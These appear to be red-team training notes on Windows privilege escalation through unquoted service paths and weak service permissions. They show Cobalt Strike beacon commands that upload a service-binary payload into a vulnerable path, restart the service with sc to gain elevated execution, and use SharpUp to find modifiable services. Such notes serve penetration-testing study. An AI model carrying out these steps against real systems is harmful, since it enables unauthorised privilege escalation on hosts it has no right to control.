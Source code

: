 ### Privilege Escalation - Unquoted Services

Payloads to abuse services must be specific "service binaries", because they need to interact with the Service Control Manager. When using the "Generate All Payloads" option, these have svc in the filename. <mark style="color:red;">Note</mark>: It's recommended to use tcp beacons bound to localhost for privilege escalation.

#### Navigate to Vulnerable Path

```powershell
beacon> cd C:\Program Files\Vulnerable Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe

```

#### Upload Payload

```powershell
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
```

#### Restart Service

We'll have to stop and start the service.

```powershell
beacon> run sc stop VulnService
beacon> run sc start VulnService

beacon> connect localhost 4444
```

## Weak Service Permissions

Services may be modifiable by users or groups that will allow us to change it's configuration.

### Enumerating Service Permissions

We can find modifiable services with SharpUp and a [Get-Service](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) Powershell script.

#### SharpUp - Find Modifiable Services

```powershell
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService' (State: Running, StartMode: Auto)
```
